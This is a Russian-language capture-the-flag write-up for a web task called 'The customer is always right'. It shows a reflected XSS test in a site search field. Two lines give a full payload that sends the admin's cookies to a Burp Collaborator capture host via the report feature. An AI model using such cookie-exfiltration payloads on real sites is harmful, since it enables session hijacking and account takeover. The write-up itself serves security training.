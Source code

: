 # The customer is always right writeup
Указанная сложность таска - седний

Цена Таска - 500 

Для начала перидем по указанному нам ип-адресу
>***62.173.140.174: 16013***

И видим такой вот сайт 
![костюм](https://github.com/BlankGODDAMN/codeby_writeup/assets/162637113/194481c8-f7e4-4522-adfb-52fcd829f0e0)

Функционал не велик. Давайте по порядку. Первое что можно селать - потыкать на ссылки, один нас вид к картинкам
![изображение](https://github.com/BlankGODDAMN/codeby_writeup/assets/162637113/e5466b30-fb06-4970-8f9e-ca60029b9fe1)

![изображение](https://github.com/BlankGODDAMN/codeby_writeup/assets/162637113/44b878dd-8f06-40ca-8f33-97f63bb4b44b)

![изображение](https://github.com/BlankGODDAMN/codeby_writeup/assets/162637113/ae91119d-7281-41bc-a41c-b43d82cda7db)

Интересны картники, наверноэ, но нас так и не кнопка репора, ридом с каждылом.
![изображение](https://github.com/BlankGODDAMN/codeby_writeup/assets/162637113/0e55828b-d9ad-4d66-811d-0f1e695254f1)

Репорт отправляется непосредственно админу, вспомним описание таска:
>***Какой-то админ ворует наши публикации и выставляет их на свой сайт. Ты ведь не будешь сидеть сложа руки?***

Скорее всего нам нужно получить доступ к админке, но как?
Название таска может подсказать нам, что тут прав клиент. Смотрим что такое XSS уязвимости.

Ну, хоть мы сразу может надеться на XSS уязвимость, было бы неплохо, проверить наши догадки.
введем в посик на сайте такую команду **<script>alert('1')</script>**
![image](https://github.com/BlankGODDAMN/codeby_writeup/assets/162637113/80d5ac94-a96f-4617-9265-a1c6b7945193)

Отлично! Наши догадки оказались верны, наша цель - перехватить куки. 
Сказать просто, надо делать. Единственное наше общение с админом происходит как раз во время репорта, а значит нам надо поддлеать репорт. 

Напишем пейлоад, который исполнит наш js скрипт, но у админа.

```
search=<script>document.location='http://{{ссылка перехвата}}//?c='%252bencodeURIComponent(document.cookie)</script>
```
Давайте разберу его. Мы используем факт того, что репорт можно отправить через search, значит мы будем искать наш пейлоад. 

Я не говорил про Burp Suite? Возможно самое время, для перехвата нам понадобиться Burp Suite Pro, способ получения не важен.

Если быть точнее, то нам нужна вкладка **Collaborator**
![image](https://github.com/BlankGODDAMN/codeby_writeup/assets/162637113/c470720f-2fd2-428f-86f8-22e57cf4a09e)

Нажимаем на кномпку **Copy clipboard**, то что мы скопировали вставляем в нам скрипт, я указ место для вставки как *ссылка перехвата*

Полная конечная наша ссылка должна выглядеть так:
```
http://62.173.140.174:16013/?report=http://62.173.140.174:16013/?search=<script>document.location='http://{{ссылка перехвата}}//?c='%252bencodeURIComponent(document.cookie)</script>
```

Вводим в поисковую строку ииии.... мы ничего не видим, зато это увидел админ. А мы возвращаемся в Burp и нажимаем **pull now**
![image](https://github.com/BlankGODDAMN/codeby_writeup/assets/162637113/8495a001-6278-48a1-a4a7-0751d4c75f39)

Перехват успешен!

А вот и наш флаг

![image](https://github.com/BlankGODDAMN/codeby_writeup/assets/162637113/6681068f-6883-4dd9-af6a-69a80136771e)

Конец.
